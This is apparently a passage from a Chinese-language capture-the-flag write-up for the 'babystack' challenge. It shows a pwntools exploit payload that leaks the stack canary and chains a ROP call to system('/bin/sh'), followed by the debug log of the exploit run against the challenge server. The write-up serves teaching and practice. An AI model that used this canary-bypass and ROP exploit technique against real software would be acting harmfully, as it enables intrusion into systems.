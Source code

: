 ```
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr) + p64(main_addr)
store_info(payload)
quit_program()

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/pwn1# python pwn1.py 
[+] Opening connection to 111.198.29.45 on port 45404: Done
[DEBUG] PLT 0x40068c puts
[DEBUG] PLT 0x4006a0 write
[DEBUG] PLT 0x4006b0 strlen
[DEBUG] PLT 0x4006c0 __stack_chk_fail
[DEBUG] PLT 0x4006d0 memset
[DEBUG] PLT 0x4006e0 read
[DEBUG] PLT 0x4006f0 setvbuf
[DEBUG] PLT 0x400700 atoi
[DEBUG] PLT 0x400710 exit
[*] '/ctf/work/python/pwn1/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[DEBUG] Received 0x2c bytes:
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0x89 bytes:
    'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
[DEBUG] Received 0x1 bytes:
    '\n'
[*] info => 
[DEBUG] Received 0x2c bytes:
    '--------\n'
    '1.store\n'
    '2.print\n'
    '3.quit\n'
    '--------\n'
    '>> '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x93 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  0a 0a 64 c5  f3 03 b2 6b  │AAAA│AAAA│··d·│···k│
    00000090  30 0a 40                                            │0·@│
    00000093
[*] info => AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] canary => 0x6bb203f3c5640a00
[DEBUG] Received 0x2e bytes:
    '\n'
    '\n'
```